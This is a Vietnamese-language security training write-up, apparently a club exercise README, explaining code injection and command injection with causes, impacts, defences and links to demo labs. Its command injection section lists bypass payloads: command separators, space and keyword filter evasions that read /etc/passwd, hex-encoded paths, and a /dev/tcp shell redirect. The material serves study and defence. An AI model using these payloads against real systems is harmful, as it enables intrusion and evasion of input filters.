 ```
Task 10:
+ Tìm hiểu về lỗ hổng code injection  và command injection.(Khái niệm , nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Nêu ra điểm khác nhau giữa hai lỗi.
+ Làm lab demo hai lỗi trên.
```

# Code Injection
### Khái niệm
Code Injection là loại tấn công mà kẻ tấn công có thể chèn mã độc vào ứng dụng. Khi đó, ứng dụng thực thi đoạn mã độc đó và gây ảnh hưởng đến người dùng, máy chủ.
### Nguyên nhân
Nguyên nhân chính của `code injection` là việc không kiểm tra đầu vào đúng cách, sử dụng các thư viện không an toàn hoặc không cập nhật, hay không sử dụng các biện pháp bảo vệ bảo mật như mã hóa dữ liệu. Ngoài ra còn do server có các chức năng hoặc  thực hiện các hàm nguy hiểm mà người dùng kiểm soát được như: `eval()`, `system()`,...
### Tác hại 
- Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
- Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
### Cách phòng chống
- Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
- Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
- Sử dụng tường lửa, các công cụ phát hiện tấn công và thường xuyên cập nhật thư viện an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/Code%20Injection%20Lab">lab</a>

# Commmand Injection
### Khái niệm
Command injection là lỗ hổng mà kẻ tấn công có thể thực thi câu lệnh hệ điều hành trên máy chủ của ứng dụng đó
### Nguyên nhân
Nguyên nhân chính của command injection là thiếu kiểm tra đầu vào của ứng dụng hoặc sử dụng các hàm không an toàn trong xử lý đầu vào như: `system()`, `eval()`, `exec()`, ...
Khi những lỗ hổng này xảy, kẻ tấn công có thể thực hiện các hành động trái phép nh như xem, sửa đổi hoặc xóa dữ liệu, kiểm soát toàn bộ hệ thống, và thực hiện các cuộc tấn công khác như DoS,...
### Tác hại
Tác hại của command injection rất nghiêm trọng. Kẻ tấn công có thể kiểm soát hoàn toàn hệ thống, đọc và sửa đổi các tập tin quan trọng, truy cập và thay đổi cơ sở dữ liệu, thực hiện các hành động trái phép trên mạng. Ngoài ra còn có thể dẫn đến các cuộc tấn công khác để đạt được mục đích kể tấn công.
### Bypass:
- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
- Bypass space:
  - Sử dụng `<`: `cat</etc/passwd`
  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
  - ...
- Bypass words:
  - quote: `w'h'o'am'i`, `w"h"o"am"i`
  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
  - $@: `who$()ami`
  - $(): `who$()ami`
  - `/usr/bin/who*mi` => `/usr/bin/whoami`
  - `$0` => bash
- Bypass characters:
  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
  - `${LS_COLORS:10:1}` => `;`
- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
### Phòng chống
- Kiểm tra xác thực đầu vào: Dùng whitelist để cho phép các câu lệnh an toàn được thực thi, loại bỏ các ký tự có thể chèn mã đọc như: `;`, `"`, `'`, `|`, `&`,...
- Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng, ...
- Ngoài ra cần thường xuyên cập nhật ứng dùng, thư viên an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/CommandInjectionLab">lab</a>

  

